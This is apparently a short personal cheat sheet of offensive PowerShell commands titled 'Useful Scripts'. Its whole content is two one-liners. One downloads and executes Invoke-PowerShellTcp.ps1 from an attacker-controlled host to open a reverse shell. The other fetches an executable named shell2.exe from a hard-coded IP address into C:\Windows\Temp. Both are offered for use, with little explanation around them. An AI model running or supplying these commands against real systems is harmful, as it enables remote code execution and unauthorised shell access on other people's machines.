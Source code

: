 # Useful Scripts

## Powershell
- Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it:  
`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`  

- Download the exploit file from http.server:  
`powershell -c "Invoke-WebRequest -uri 'http://10.2.18.235:8000/shell2.exe' -OutFile 'C:\Windows\Temp\shell.exe'"`  

